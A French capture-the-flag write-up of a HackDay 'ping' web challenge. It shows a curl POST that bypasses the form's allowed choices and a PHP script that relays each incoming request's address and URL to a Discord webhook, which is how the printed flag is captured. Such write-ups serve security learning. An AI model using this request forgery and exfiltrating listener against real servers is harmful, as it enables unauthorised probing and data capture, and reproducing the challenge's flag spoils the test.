

Ce challenge est un site web permettant de tester des pings sur certains site web.
On a accès au code source !



On a le choix entre le site web de la NASA ou celui de HackDay. Bien évidemment, en bidouillant un peu avec l'inspecteur, on peut rajouter des choix. Ou alors carrément faire des requêtes sans utiliser le formulaire, comme ceci :

```bash
curl -X POST challenges.hackday.fr:50394/send -H Content-Type:application/x-www-form-urlencoded --data ip_address=https://duckduckgo.com
```

Sauf que nous pouvons voir qu'une fonction côté serveur (`very_unique_id`) permet de donner une *signature* (nombre entre 0 et 41) à chaque URL.
Et pour que l'URL soit valide, il faut que la signature soit égale à nos 2 choix de site web : `NASA` et `HackDay`. Soit 30 ou 27.

Une fois une URL valide trouvée, on peut la soumettre et voir le résultat du ping. J'ai choisi de faire cela avec un script PHP qui envoie le résultat dans un webhook Discord :
    
```php
<?php

$url = "https://discord.com/api/webhooks/bonsoir_webhook_je_suis_et_je_renvoie_les_pings";

$data = array('content' => 'Connexion sur l\'url '.$_SERVER['REMOTE_ADDR']."https://$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]");

$options = array(
    'http' => array(
        'header'  => "Content-type: application/x-www-form-urlencoded\r\n",
        'method'  => 'POST',
        'content' => http_build_query($data)
    )
);
$context  = stream_context_create($options);
$result = file_get_contents($url, false, $context);
?>
```

On reçoit alors le résultat du ping dans Discord, avec le flag dans l'URL : **HACKDAY{Pr3ttY_34Sy_r1Ght?}**.